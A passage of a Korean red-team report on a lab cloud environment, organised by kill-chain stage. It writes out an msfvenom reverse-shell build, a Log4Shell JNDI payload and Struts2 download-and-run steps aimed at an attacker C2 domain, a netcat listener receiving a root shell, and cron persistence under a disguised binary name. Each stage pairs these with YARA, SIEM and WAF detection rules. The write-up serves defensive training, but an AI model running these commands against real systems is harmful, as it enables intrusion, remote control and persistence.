

### **목차**
- [0. 모의 해킹 개요](#0-모의-해킹-개요)
  - [0.1. 목적](#01-목적)
  - [0.2. 방법론](#02-방법론)
  - [0.3. 시스템 아키텍처](#03-시스템-아키텍처)
  - [0.4. 공격 인프라 구축 (Infrastructure Setup)](#04-공격-인프라-구축-infrastructure-setup)
- [1. 정찰 (Reconnaissance)](#1-정찰-reconnaissance)
- [2. 무기화 (Weaponization)](#2-무기화-weaponization)
- [3. 유포 (Delivery)](#3-유포-delivery)
- [4. 악용 (Exploitation)](#4-악용-exploitation)
- [5. 설치 (Installation)](#5-설치-installation)
- [6. 명령 및 제어 (Command and Control)](#6-명령-및-제어-command-and-control)
- [7. 목적 달성 (Action on Objectives)](#7-목적-달성-action-on-objectives)
  - [7.1.1단계: 권한 상승 (Privilege Escalation)](#71-1단계-권한-상승-privilege-escalation)
  - [7.2. 2단계: 내부 정찰 및 수평 이동 (Internal Reconnaissance & Lateral Movement)](#72-2단계-내부-정찰-및-수평-이동-internal-reconnaissance--lateral-movement)
  - [7.3. 3단계: 핵심 데이터 수집 및 유출 (Collection & Exfiltration)](#73-3단계-핵심-데이터-수집-및-유출-collection--exfiltration)
- [8. 종합 분석 및 권고 사항](#8-종합-분석-및-권고-사항)

---

## 0. 모의 해킹 개요

### 0.1. 목적

본 보고서는 `CKCProject` 환경을 대상으로 수행된 **외부 위협 행위자 관점의 공격 시뮬레이션** 결과를 기술한다. 외부 공격자가 Load Balancer, NAT Gateway 등으로 구성된 다층 방어 아키텍처의 경계를 돌파하고, 웹 티어(DMZ)를 교두보 삼아 내부망(Private Subnet)의 핵심 데이터베이스 서버까지 도달하는 모든 공격 경로를 식별 및 증명하는 것을 목적으로 한다.

### 0.2. 방법론

본 시뮬레이션은 실제 위협 그룹의 공격 절차를 모방하기 위해 **사이버 킬체인(Cyber Kill Chain)** 방법론을 채택하였으며, 각 단계에서 수행되는 모든 공격 행위는 **MITRE ATT&CK® 프레임워크**에 매핑하여, 각 행위의 전술적 의미와 방어적 관점에서의 시사점을 심층적으로 분석했다.

### 0.3. 시스템 아키텍처

작전 대상인 `CKCProject` 훈련 환경은 고가용성 및 보안을 고려하여 설계된 표준적인 클라우드 아키텍처를 따른다. 외부에는 서비스 제공을 위한 Load Balancer와 관리 접속을 위한 Azure Bastion이 존재하며, 모든 내부 VM들은 NAT Gateway를 통해 외부 인터넷과 통신하는 Private Subnet에 격리되어 있다.

```mermaid
flowchart LR
    classDef attacker fill:#ffdddd,stroke:#ff0000,stroke-width:2px;
    classDef target fill:#ddffdd,stroke:#00ff00,stroke-width:2px;
    classDef network fill:#eeeeee,stroke:#333333,stroke-dasharray: 5 5;

    subgraph Attacker_Zone [공격자 영역]
        direction TB
        Operator["Attacker PC"]:::attacker
        C2["Attacker C2 Server<br>(Azure VM)"]:::attacker
    end

    subgraph Target_Zone [타겟 네트워크 (Azure VNet)]
        direction TB
        LB["Target Load Balancer"]:::target
        WebVM["Target Web Server<br>(Private Subnet)"]:::target
    end

    Operator -- "SSH Control" --> C2
    C2 -- "1. Attack Traffic<br>(hamap.shop)" --> LB
    LB -- "2. Forwarding" --> WebVM
    WebVM -- "3. Reverse Shell<br>(Outbound)" --> C2

    linkStyle 1,2,3 stroke-width:2px,fill:none,stroke:red;
```

### 0.4. 공격 인프라 구축 (Infrastructure Setup)

본 시뮬레이션은 공격의 현실성(Realism)과 작전 보안(OPSEC)을 고려하여, 공격자의 로컬 PC에서 직접 공격을 수행하는 대신 **클라우드 기반의 독립된 C2(Command & Control) 인프라**를 구축하여 수행되었다.

```mermaid
flowchart LR
    classDef hacker fill:#f9f,stroke:#333,stroke-width:2px;
    classDef c2 fill:#bbf,stroke:#333,stroke-width:2px;
    classDef victim fill:#bfb,stroke:#333,stroke-width:2px;

    Operator["공격자 PC (Kali)"]:::hacker -- "SSH (Encrypted)" --> C2_VM

    subgraph Cloud_C2 [Attacker Infrastructure (Azure Cloud)]
        direction TB
        C2_VM["Attacker C2 VM<br>(Ubuntu 22.04)"]:::c2
        
        subgraph Services [Running Services]
            C2_Web["Nginx (Port 80/443)<br>Payload Delivery"]
            C2_LDAP["Marshalsec (Port 8888)<br>LDAP Redirector"]
            C2_List["Netcat (Port 4444)<br>Reverse Shell Listener"]
        end
    end
    
    subgraph Victim_Network [Target Network]
        Target["Target Web Server<br>(Vulnerable App)"]:::victim
    end

    C2_Web -.->|"1. Download Payload<br>(HTTPS)"| Target
    C2_LDAP -.->|"2. JNDI Lookup<br>(LDAP)"| Target
    Target ==>"3. Reverse Connection<br>(TCP)"| C2_List
```

**1. 공격자 전용 VM (Attacker C2 Server)**
*   **구성:** Azure Cloud 내에 타겟 네트워크와 분리된 독립 VNet 및 공인 IP를 가진 Ubuntu 22.04 서버를 구축.
*   **목적:** 공격 원점을 난독화하고, 피해 시스템(Target)으로부터의 역접속(Reverse Shell)을 안정적으로 수신하기 위함. 로컬 네트워크(NAT) 환경의 제약을 극복.

**2. 위장 도메인 및 HTTPS 통신 (Camouflage Domain & SSL)**
*   **도메인:** 공격 트래픽을 정상적인 웹 트래픽으로 위장하기 위해 `hamap.shop` 도메인을 등록하여 C2 서버에 연결.
*   **HTTPS 암호화:** `Let's Encrypt`를 통해 SSL 인증서를 발급받고 Nginx 리버스 프록시를 구성.
*   **효과:** IDS/IPS(침입 탐지 시스템)가 페이로드를 평문으로 감청하는 것을 방지하고, 타겟 시스템의 아웃바운드 보안 정책(HTTPS 허용)을 우회.

---


#### 1. 정찰 (Reconnaissance)

**목표:** 공격 대상인 로드밸런서(Load Balancer)의 공개 IP를 대상으로 능동적 스캔을 수행하여, 실행 중인 서비스의 기술 스택(Technology Stack)을 파악하고 침투 가능한 **공격 표면(Attack Surface)**을 매핑한다.

*   **[T1595.001] Active Scanning:** IP 블록 및 취약점 스캔.
*   **[T1592] Gather Victim Host Information:** 소프트웨어 버전 및 구성 정보 수집.

### 실행 및 분석

공격의 유일한 진입점인 Public IP(`$LOAD_BALANCER_IP`)를 대상으로 정찰을 수행했다.

#### 1.1. 주요 애플리케이션 포트 및 서비스 식별 (Service Enumeration)

**전략:**
클라우드 환경(Azure Load Balancer)은 일반적으로 ICMP(Ping) 패킷을 차단하므로 `-Pn` 옵션을 사용하여 호스트 활성화 여부를 무시하고 강제 스캔을 수행했다. 또한, 방화벽 차단을 최소화하면서 핵심 서비스를 식별하기 위해 일반적인 엔터프라이즈 포트 대역으로 범위를 좁혔다.

```bash
# -Pn: 호스트 발견(Ping) 생략 (클라우드 방화벽 우회)
# -sV: 서비스 버전 및 배너 정보 획득 (Fingerprinting)
# --min-rate 1000: 고속 스캔을 통한 시간 단축
nmap -sC -sV -p 80,5000,8000-9200 -Pn --min-rate 1000 --open $LOAD_BALANCER_IP
```

**[위협 분석 및 우선순위 선정 (Risk Assessment)]**

스캔 결과 다수의 포트가 개방되어 있었으며, 배너 그래빙(Banner Grabbing)을 통해 **오래된 버전의 자바 애플리케이션**들이 식별되었다. 공격 성공 가능성과 영향도를 고려하여 공격 우선순위를 다음과 같이 선정했다.

| Priority | Port | Service / Version | Threat Analysis (공격 가능성 분석) |
| :--- | :--- | :--- | :--- |
| **P1 (Critical)** | **8081** | **Apache Struts2 Showcase** | 배너에 `Struts2 Showcase`가 노출됨. 데모 앱은 보통 보안 패치가 누락되어 있으며, 악명 높은 **RCE(CVE-2017-5638)** 취약점이 존재할 확률이 99% 이상임. |
| **P1 (Critical)** | **8083** | **TCP (Unknown Java App)** | Nmap은 `Nagios`로 추정했으나, 응답 헤더 패턴상 **Log4j**를 사용하는 자바 컨테이너일 가능성이 높음. 포괄적인 JNDI 인젝션 테스트 필요. |
| **P2 (High)** | **9200** | **Elasticsearch 1.7.6** | 인증이 없는 1.x 구버전. RCE(CVE-2014-3120)가 가능하거나, 최소한 내부 데이터 무단 열람이 가능함. |
| **P3 (Medium)** | **5000** | **Python Werkzeug 2.0.3** | 디버그 모드 활성화 시 콘솔 RCE 가능. |
| **P4 (Low)** | **80** | **Apache 2.4.29** | 일반 웹 공격(SQLi, LFI) 시도 필요. 성공 확률은 상대적으로 낮고 시간이 소요됨. |

> **[스크린샷 1: Nmap 스캔 결과 - Struts2 및 Elasticsearch 등 다수의 고위험군 서비스 식별]**
   

#### 1.2. 웹 서비스 및 디렉터리 열거 (Directory Bruteforcing)

80번 포트의 웹 애플리케이션 구조를 파악하여 숨겨진 관리자 페이지나 백도어를 식별하기 위해 `gobuster`를 사용했다.

```bash
gobuster dir -u http://$LOAD_BALANCER_IP/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50
```

**[주요 발견 경로 분석]**

*   **/test.php (Status 200, Size 0):** **[Suspicious]** 응답 크기가 0인 빈 파일이다. 이는 개발자가 남겨둔 디버깅용 페이지거나, 특정 파라미터(`?cmd=`, `?file=`)가 입력되지 않으면 아무것도 출력하지 않는 **백도어(Backdoor)성 파일**일 가능성이 매우 높다.
*   **/login (301 Redirect):** 관리자 인증 페이지로 추정되며, SQL Injection 공격의 주요 타겟이다.
*   **/upload (301 Redirect):** 파일 업로드 기능이 존재할 경우, 확장자 우회를 통한 **웹 셸(Web Shell)** 공격이 가능하다.

**종합 정찰 결론:**
단순 웹 취약점(SQLi, LFI)을 공략하는 것보다, **P1 등급으로 식별된 RCE 취약점(Struts2, Log4j)**을 이용하면 인증 과정 없이 즉시 시스템 권한을 탈취할 수 있다고 판단했다. 따라서 복잡한 웹 해킹 단계를 건너뛰고 **CVE 기반의 익스플로잇**을 최우선으로 수행하기로 전략을 수립했다.

   

---

#### 1.3. 탐지 및 방어 전략 (Detection & Mitigation)

공격자의 정찰 행위를 탐지하고 차단하기 위한 방어 관점의 분석이다.

**1. 네트워크 스캔 탐지 (Network Signature)**
*   **시그니처:** 단일 소스 IP에서 짧은 시간 동안 다수의 목적지 포트로 SYN 패킷을 전송하는 행위(Port Scan)는 방화벽이나 IDS에서 쉽게 탐지된다.
*   **대응:** 방화벽에서 불필요한 포트(5000, 8080-9200)는 외부 접근을 전면 차단하고, 공인 IP에는 80/443 포트만 허용해야 한다.

**2. 디렉터리 브루트포스 탐지 (App Signature)**
*   **시그니처:** `gobuster` 사용 시 짧은 시간 내에 **404 Not Found** 오류가 급증하거나, User-Agent 헤더에 자동화 도구의 이름(`gobuster`, `dirbuster`)이 포함된다.
*   **대응:** WAF(Web Application Firewall)를 통해 비정상적인 404 에러 비율(Rate Limiting)을 모니터링하고, 자동화 도구의 User-Agent를 차단한다.

---

#### 2. 무기화 (Weaponization)

**목표:** 정찰 단계에서 식별된 고위험 취약점(Struts2, Log4Shell)을 공략하기 위해, 공격자의 C2 인프라(`hamap.shop`)와 연동되는 맞춤형 악성 페이로드(Payload)를 제작하고, 이를 타겟 시스템이 안전하게 반입할 수 있도록 배포 시스템(Staging)을 구축한다.

*   **[T1588.002] Obtain Capabilities: Tool:** 공격 도구 및 페이로드 제작.
*   **[T1608.001] Stage Capabilities: Upload Malware:** 악성 코드를 외부 인프라에 배치.

#### 2.1. C2 페이로드 제작 및 인프라 배치 (Payload Staging)

**전략:** 공격자의 로컬 IP(Home IP) 노출을 방지하고, 악성 코드 다운로드 트래픽을 정상적인 웹 트래픽으로 위장하기 위해 **도메인 기반의 Staging 전략**을 수립했다.

**1. 리버스 셸 아티팩트(Artifact) 제작:**
Kali Linux에서 `msfvenom`을 사용하여 ELF 포맷의 리버스 셸 바이너리(`genesis.elf`)를 제작했다.
단순 IP 연결(`LHOST=IP`) 대신 **도메인(`LHOST=hamap.shop`)**을 사용함으로써, 향후 C2 서버의 IP가 변경되더라도 DNS 레코드 수정만으로 연결을 유지할 수 있는 **지속성(Persistence)**과 **유연성(Flexibility)**을 확보했다.

```bash
# LHOST=hamap.shop 설정을 통해 도메인 기반 연결 유도
# linux/x64/shell_reverse_tcp: 타겟이 64비트 리눅스임을 감안한 페이로드 선정
msfvenom -p linux/x64/shell_reverse_tcp LHOST=hamap.shop LPORT=4444 -f elf -o genesis.elf
```

**2. 공격 인프라로 무기 이관 (Staging):**
제작된 무기는 `scp`를 이용해 Azure C2 서버로 암호화 전송되었으며, 웹 서버 루트(`/var/www/html`)에 배치하여 타겟이 `http://hamap.shop/genesis.elf` 주소를 통해 다운로드할 수 있도록 무기화했다.

   
   

#### 2.2. 엔터프라이즈 취약점 공격 체인 구성 (Exploit Chain Setup)

단일 파일 실행이 아닌, 애플리케이션의 로직을 악용하여 페이로드를 스스로 다운로드하고 실행하게 만드는 **Multi-Stage Exploit Chain**을 설계했다.

**① Apache Struts2 (CVE-2017-5638) 공격 체인:**
Struts2의 Jakarta Multipart 파서가 `Content-Type` 헤더를 처리할 때 발생하는 OGNL 인젝션 취약점을 이용했다.
작성된 Python 스크립트(`struts2_exploit.py`)는 다음과 같은 OGNL 페이로드를 생성하여 전송한다.

*   **ProcessBuilder 악용:** Java의 `ProcessBuilder` 클래스를 호출하여 시스템 셸(`/bin/bash`)에 접근한다.
*   **Command Injection:** `wget`으로 C2 페이로드를 다운로드하고, `chmod`로 실행 권한을 부여한 뒤, 백그라운드(`&`)에서 실행하여 연결을 수립한다.

   

**② Log4Shell (CVE-2021-44228) 인프라 구축:**
Log4j 취약점은 JNDI(Java Naming and Directory Interface) Lookup 기능을 악용하므로, **LDAP 서버**와 **HTTP 서버**가 연계된 인프라가 필수적이다. 이를 위해 C2 서버에서 두 개의 리스너를 구동했다.

1.  **LDAP Redirector (Marshalsec, Port 8888):** 타겟의 JNDI 요청을 수신하면, 실제 악성 코드가 위치한 HTTP 서버로 리다이렉트(Redirect)하는 '교통 정리' 역할을 수행한다.
2.  **Payload Hosting (Python HTTP, Port 8000):** 실제 악성 Java 클래스(`Exploit.class`)와 2차 페이로드(`genesis.elf`)를 서빙한다.

이 구성은 방화벽이 특정 포트만 차단하는 경우를 우회하고, 공격 단계를 분리하여 성공률을 높이기 위함이다.

   

---

#### 2.3. 탐지 및 방어 전략 (Detection & Mitigation)

본 단계에서 생성된 위협 요소를 식별하고 차단하기 위한 방어 대책을 분석했다.

**1. 파일 기반 탐지 (File-Based Detection)**
`msfvenom`으로 생성된 기본 페이로드는 잘 알려진 시그니처를 포함하고 있어 보안 솔루션에 탐지될 가능성이 높다.

*   **YARA Rule 예시:** `msfvenom`이 생성한 ELF 파일의 특징적인 헤더나 셸코드 패턴을 탐지한다.
    ```yara
    rule Detect_Msfvenom_ELF {
        meta:
            description = "Detects basic msfvenom linux/x64/shell_reverse_tcp payload"
        strings:
            $elf_magic = { 7F 45 4C 46 }
            $shellcode_pattern = { 6a 29 58 99 6a 02 5f 6a 01 5e } 
        condition:
            $elf_magic at 0 and $shellcode_pattern
    }
    ```

**2. 행위 기반 탐지 (Behavioral Detection)**
*   **Staging 탐지:** 내부 서버가 허가되지 않은 외부 도메인(`hamap.shop`)이나 IP로부터 실행 파일(.elf, .class)을 다운로드하는 행위는 **EDR**이나 **네트워크 포렌식** 도구에서 즉각적으로 식별되어야 한다.
*   **프로세스 계보(Process Tree):** Java(Tomcat) 프로세스가 `wget`, `curl`, `bash` 등을 자식 프로세스로 생성하는 것은 전형적인 웹 해킹 징후이다.

### 결론

공격자는 안정적인 C2 연결을 위해 도메인 기반의 Staging 인프라를 구축하고, 애플리케이션의 취약점 특성에 맞춘 정교한 공격 체인을 완성함으로써 무기화 단계를 완료했다. 이는 단순한 툴 사용을 넘어 **OPSEC(작전 보안)**을 고려한 전략적 접근임을 시사한다.

---

#### 3. 유포 (Delivery)

**목표:** 무기화 단계에서 제작된 악성 페이로드 및 익스플로잇 코드를 타겟 시스템의 애플리케이션(Struts2, Log4j)에 전달(Transmission)한다. 이 단계에서는 보안 장비의 탐지를 회피하고, 타겟이 공격자의 C2 인프라로부터 악성 코드를 스스로 반입(Ingress)하도록 유도하는 것이 핵심이다.

*   **[T1190] Exploit Public-Facing Application:** 외부 공개 애플리케이션의 취약점 악용.
*   **[T1210] Exploitation of Remote Services:** 원격 서비스로의 페이로드 전송.

#### 3.1. Apache Struts2 악성 OGNL 구문 전송 (CVE-2017-5638)

**공격 벡터:**
Apache Struts2 프레임워크가 HTTP 헤더의 `Content-Type` 값을 파싱하는 과정에서 발생하는 OGNL(Object-Graph Navigation Language) 인젝션 취약점을 이용했다.

**실행 및 분석:**
사전에 작성한 Python 익스플로잇 스크립트(`struts2_exploit.py`)를 실행하여 공격을 개시했다.

```bash
# 공격자 로컬(Kali)에서 익스플로잇 실행
python3 struts2_exploit.py
```

**[실행 결과 분석: Time-Based Detection]**
스크립트 실행 후 콘솔에 `Read timed out` 오류가 출력되었다. 일반적인 HTTP 통신 에러로 보일 수 있으나, 이는 공격 성공을 암시하는 **긍정적 시그널(Positive Signal)**이다.
*   **원인:** 주입된 페이로드(`wget ... && ...`)가 타겟 서버 내부에서 실행되는 동안, 웹 서버 스레드가 해당 작업이 완료될 때까지 응답을 보류(Blocking)하기 때문이다.
*   **결과:** 타임아웃이 발생한 시점에 타겟 서버는 이미 백그라운드에서 C2 서버의 `genesis.elf`를 다운로드하고 실행 중인 상태이다.

   

#### 3.2. Log4Shell JNDI Injection 트리거 (CVE-2021-44228)

**공격 벡터:**
Log4j 라이브러리의 JNDI(Java Naming and Directory Interface) Lookup 기능을 악용하여, 공격자가 제어하는 LDAP 서버로 강제 연결을 유도했다.

**실행 및 분석:**
로그가 기록될 확률이 높은 HTTP 헤더(`X-Api-Version`)에 악성 JNDI 구문을 삽입하여 `curl` 요청을 전송했다.

```bash
# 공격자 로컬(Kali)에서 C2 인프라(LDAP/HTTP)로 유도하는 구문 전송
curl -H 'X-Api-Version: ${jndi:ldap://hamap.shop:8888/Exploit}' http://LOAD_BALANCER_IP:8083/
```

**[공격 인프라 로그 분석: Delivery Confirmation]**
공격 패킷 전송 직후, Azure C2 서버에서 대기 중이던 서비스 로그를 통해 타겟 시스템이 유인책에 걸려들었음을 확인했다.

1.  **LDAP Request (Marshalsec):** 타겟 IP(20.214.x.x)가 LDAP 서버(8888)에 쿼리를 전송했고, 서버는 이를 악성 Java 클래스가 위치한 HTTP 경로로 리다이렉트(Redirect) 했다.
2.  **Payload Download (Python HTTP):** 리다이렉트 직후, 타겟 시스템이 공격자의 웹 서버(8000)에 접속하여 `Exploit.class` 파일을 성공적으로 다운로드(GET 요청, 상태 코드 200)했다.

이 로그는 방화벽 내부의 타겟 시스템이 **아웃바운드 통신을 시도**했으며, 악성 코드가 메모리 상으로 **성공적으로 반입(Delivery)되었음**을 증명하는 결정적인 증거이다.

   
   

---

#### 3.3. 탐지 및 방어 전략 (Detection & Mitigation)

본 시뮬레이션에서 사용된 공격 기법을 탐지하고 차단하기 위한 보안 대책을 분석했다.

**1. 네트워크 탐지 시그니처 (Network Signatures)**
공격자가 C2 서버(`hamap.shop`)와 통신하는 과정에서 발생하는 특징적인 패턴을 식별한다.

*   **비정상적인 아웃바운드 LDAP 트래픽:** 웹 서버가 외부 인터넷(특히 1389, 8888 등 비표준 포트)으로 LDAP 프로토콜 통신을 시도하는 것은 매우 이례적이다.
*   **IP가 아닌 도메인 기반 C2 통신:** `hamap.shop`과 같은 신규 등록 도메인이나, 위협 인텔리전스(TI)에 등록된 악성 IP와의 통신을 모니터링해야 한다.

**SIEM 쿼리 예시 (Splunk):**
```spl
index=network_logs (dest_port=1389 OR dest_port=389 OR dest_port=8888)
| stats count by src_ip, dest_ip, dest_port
| where src_ip IN (web_server_subnet)
| eval alert_severity="High"
| rename src_ip as "Compromised_Host", dest_ip as "Malicious_LDAP_Server"
```

**2. 애플리케이션 방어 규칙 (WAF Rules)**
유입되는 HTTP 요청 패킷에서 공격 구문을 사전에 차단한다.

*   **Struts2 탐지:** `Content-Type` 헤더에 OGNL 표현식의 시작인 `%{(...}` 또는 `multipart/form-data` 외의 비정상 문자열이 포함된 경우 차단.
*   **Log4Shell 탐지:** 헤더 및 바디 전반에 걸쳐 `${jndi:` 패턴이 포함된 경우 즉시 차단.

**WAF 규칙 예시 (ModSecurity):**
```apache
# Detect Log4Shell JNDI patterns
SecRule REQUEST_HEADERS|REQUEST_BODY "@rx \$\{jndi:(ldap|rmi|dns|nis|iiop|corba|nds|http):" \
    "id:1001,phase:2,deny,status:403,msg:'Log4Shell JNDI Injection Attempt'"

# Detect Struts2 OGNL in Content-Type
SecRule REQUEST_HEADERS:Content-Type "@rx %\{.*@ognl\." \
    "id:1002,phase:1,deny,status:403,msg:'Struts2 CVE-2017-5638 Exploit Attempt'"
```

### 결론

공격자는 취약점이 존재하는 웹 애플리케이션에 정교하게 조작된 HTTP 요청을 전송함으로써, 타겟 시스템이 **자발적으로** 공격자의 C2 서버에 접속하여 악성 코드를 다운로드하게 만들었다. 이는 인바운드 방화벽 정책을 우회하는 효과적인 **유포(Delivery)** 전략임이 입증되었다.

---

#### 4. 악용 (Exploitation)

**목표:** 전달된 악성 코드를 트리거(Trigger)하여 대상 시스템에서 코드를 실행하고, 공격자의 C2 서버와 안정적인 명령 제어 채널(C2 Channel)을 수립하여 **초기 접근(Initial Access)** 권한을 획득한다.

*   **[T1059] Command and Scripting Interpreter:** 셸 커맨드 실행.
*   **[T1046] Network Service Scanning:** (후속) 연결 후 내부 정찰 준비.

#### 4.1. RCE 실행 및 세션 수립 (Execution & Session Establishment)

**실행 과정:**
3단계(유포)에서 전송된 공격 벡터(Struts2 OGNL, Log4j JNDI)가 타겟 애플리케이션에 의해 처리되는 순간, 주입된 명령어가 실행되어 공격자의 Azure C2 서버(`hamap.shop`)로 **역접속(Reverse Connection)**을 시도했다.

**결과 분석:**
공격자 C2 서버에서 4444번 포트로 대기 중이던 Netcat 리스너에 TCP 연결이 수립되었다. 이는 타겟 시스템의 방화벽이 **인바운드(Inbound)** 정책은 엄격할지라도, **아웃바운드(Outbound)** 정책은 허용되어 있음을 의미한다.

```bash
# Attacker C2 Server Terminal
azureadmin@Attacker-C2-Server:~$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 20.214.245.185 10559 ...
```

   

#### 4.2. 초기 접근 권한 및 환경 분석 (Context Analysis)

연결 수립 직후, 획득한 셸의 권한과 실행 환경을 파악하기 위해 기본 시스템 명령어를 수행했다.

```bash
/ # id
uid=0(root) gid=0(root) groups=0(root)

/ # hostname
e3f2a1b4c5d6
```

**[Red Team 분석: 치명적 보안 결함 식별]**

1.  **최고 권한 탈취 (Root Compromise):**
    *   `id` 명령 결과 **`uid=0(root)`**가 확인되었다. 이는 웹 애플리케이션 프로세스가 최소 권한 원칙(Least Privilege)을 위배하고 **Root 권한**으로 구동되고 있었음을 보여준다.
    *   **Impact:** 공격자는 별도의 권한 상승(Privilege Escalation) 공격 없이도 즉시 파일 시스템 전체를 제어하고, 시스템 설정을 변경하거나 백도어를 설치할 수 있는 막강한 권한을 얻었다.

2.  **컨테이너 환경 식별 (Containerization):**
    *   `hostname`이 `e3f2a1b4c5d6`와 같은 무작위 16진수 문자열로 출력되었다. 이는 해당 시스템이 **Docker 컨테이너** 또는 **Kubernetes 파드(Pod)** 환경임을 시사한다.
    *   **Strategy:** 향후 공격 전략을 "단일 서버 장악"에서 **"컨테이너 탈출(Container Escape)"** 및 **"오케스트레이션 네트워크(Kubernetes Network) 횡적 이동"**으로 확장해야 한다.

   

---

#### 4.3. 탐지 및 방어 전략 (Detection & Mitigation)

공격 성공의 원인을 분석하고, 이를 방어하기 위한 대책을 수립했다.

**1. 프로세스 계보 분석 (Process Ancestry)**
*   **탐지:** 웹 서버 프로세스(Java, Tomcat)가 셸(`/bin/sh`, `/bin/bash`)을 자식 프로세스로 생성하거나, 네트워크 도구(`nc`, `curl`, `wget`)를 실행하는 행위는 100% 악성 행위로 간주해야 한다.
*   **EDR 대응:** 부모 프로세스가 `java`인 경우, 셸 실행을 차단하는 정책을 적용한다.

**2. 컨테이너 보안 강화 (Container Security)**
*   **Root 구동 금지:** Dockerfile 내에 `USER 1000` 등 비특권 사용자를 명시하여, 애플리케이션이 침해되더라도 Root 권한을 뺏기지 않도록 해야 한다.
    ```dockerfile
    # Dockerfile Example
    RUN addgroup -S appgroup && adduser -S appuser -G appgroup
    USER appuser
    ```
*   **읽기 전용 파일 시스템:** 컨테이너의 파일 시스템을 `Read-Only`로 설정하여 공격자가 악성 도구를 다운로드하거나 실행 권한(`chmod +x`)을 부여하지 못하게 막아야 한다.

**3. 아웃바운드 통제 (Egress Filtering)**
*   **문제점:** 내부망(Private Subnet)에 위치한 서버가 인터넷 상의 임의의 IP/포트(4444)로 접속할 수 있었던 것이 C2 연결의 주 원인이다.
*   **대응:** NAT Gateway 또는 Network Policy를 통해, 업무에 필수적인 도메인(OS 업데이트, API 호출 등) 외의 **모든 아웃바운드 트래픽을 차단(Default Deny)**해야 한다.

### 결론

공격자는 취약점 악용을 통해 **Root 권한의 셸**을 획득하는 데 성공했다. 이는 단순한 코드 실행 취약점뿐만 아니라, **컨테이너 런타임 보안 설정의 부재**와 **네트워크 접근 제어(Egress)의 실패**가 복합적으로 작용한 결과이다. 이제 공격자는 이 거점을 바탕으로 내부망 깊숙이 침투할 준비를 마쳤다.

---

## 5. 설치 (Installation)

**목표:** 확보된 초기 접근(Initial Access) 권한을 이용하여 시스템 재부팅이나 프로세스 종료 후에도 접근 권한을 유지할 수 있는 **지속성(Persistence)** 메커니즘을 구축하고, 탐지를 회피하기 위해 **C2 통신 채널을 고도화**한다.

*   **[T1053.003] Scheduled Task/Job: Cron:** 작업을 스케줄링하여 악성 코드 실행.
*   **[T1036.005] Masquerading: Match Legitimate Name:** 시스템 파일로 위장.
*   **[T1573.002] Encrypted Channel:** C2 통신 암호화.

#### 5.1. 지속성 확보 (Persistence Mechanism)

**전략:**
현재 장악한 시스템은 컨테이너 환경이므로, 프로세스가 강제 종료되거나 컨테이너가 재시작될 경우 셸 연결이 끊길 위험이 있다. 이를 방지하기 위해 리눅스의 표준 스케줄러인 **Cron**을 이용하여 주기적으로 C2 서버에 연결을 시도하는 'Heartbeat' 메커니즘을 심었다.

**실행 및 분석:**
1.  **[Masquerading]** 악성 페이로드(`genesis.elf`)를 탐지가 어려운 시스템 경로(`/usr/local/bin/`)로 이동시키고, 이름을 정상적인 시스템 프로세스인 것처럼 **`kworker_sys`**로 변경하여 관리자의 육안 검사를 회피했다.
    ```bash
    # 1. Payload 은닉 및 위장
    mv /tmp/g.elf /usr/local/bin/kworker_sys
    chmod +x /usr/local/bin/kworker_sys
    ```
    

2.  **[Persistence]** 1분마다 해당 바이너리가 실행되도록 Crontab에 등록했다. 이로써 연결이 끊기더라도 최대 1분 내에 C2 세션이 복구된다.
    ```bash
    # 2. Crontab 등록 (매 분마다 실행)
    echo "* * * * * root /usr/local/bin/kworker_sys" >> /etc/crontab
    ```
    

**[Red Team Insight: 컨테이너의 한계]**
현재 환경은 Docker 컨테이너 내부이므로, 컨테이너 자체가 삭제되고 이미지가 재생성(Re-deployment)되면 `/etc/crontab`의 내용도 사라진다. 진정한 지속성을 위해서는 향후 **컨테이너 탈출(Container Escape)**을 통해 **호스트 노드(Node)**에 지속성을 심거나, CI/CD 파이프라인을 오염시켜 **이미지 자체를 변조**하는 전략이 필요하다.

#### 5.2. C2 채널 고도화 (C2 Channel Hardening)

**전략:**
초기 침투에 사용된 단순 TCP 리버스 셸(Netcat)은 데이터가 평문으로 전송되어 IDS/IPS에 쉽게 탐지되고, 연결이 불안정하다. 이를 보완하기 위해 **암호화된 HTTPS 비콘(Beacon)** 채널로 통신 방식을 업그레이드했다.

**실행 및 분석:**
